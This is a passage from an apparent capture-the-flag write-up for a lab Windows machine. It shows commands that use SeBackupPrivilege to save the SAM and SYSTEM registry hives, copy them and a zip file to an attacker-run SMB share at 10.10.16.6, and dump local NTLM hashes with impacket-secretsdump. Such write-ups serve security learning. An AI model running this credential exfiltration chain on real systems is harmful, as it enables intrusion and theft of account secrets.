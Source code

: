 Next, what we have to do is to set up a smbserver on our local machine and transfer the file over from evil-winrm. (NOTE: We have to set username and password on the smbserver on the local machine for this to work)

```
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-smbserver share return -smb2support -username test -password test -ip 10.10.16.6 
----------------------------------------------------------------------------------------------
*Evil-WinRM* PS C:\temp> net use \\10.10.16.6\share /user:test test
*Evil-WinRM* PS C:\temp> copy 20220501052811_return.zip \\10.10.16.6\share
*Evil-WinRM* PS C:\temp> del 20220501052811_return.zip
```

### SeBackupPrivilege
Looking at the ```whoami /priv``` command, we realize that the SeBackupPrivilege is enabled on this machine. This means that the user is able to read all the files on this Windows machine. 

This means that we can save the SAM and SYSTEM registry files to our temp directory and transfer them over to our local machine. 

```
*Evil-WinRM* PS C:\temp> reg save hklm\sam c:\temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\temp> net use \\10.10.16.6\share /user:test test
The command completed successfully.

*Evil-WinRM* PS C:\temp> copy sam \\10.10.16.6\share\sam
*Evil-WinRM* PS C:\temp> copy system \\10.10.16.6\share\system
```

Afterwards, we can use impacket-secretsdump to dump the SAM hashes

```
┌──(kali㉿kali)-[~/Desktop/return/dump]
└─$ impacket-secretsdump -sam sam -system system local                                        
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xa42289f69adb35cd67d02cc84e69c314
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:34386a771aaca697f447754e4863d38a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

However, for this machine, we are unable to use the hashes to do a pass-the-hash attack to authenticate to the server. This is probably because the Administrator user does not have the privileges to authenticate to the SMB server.
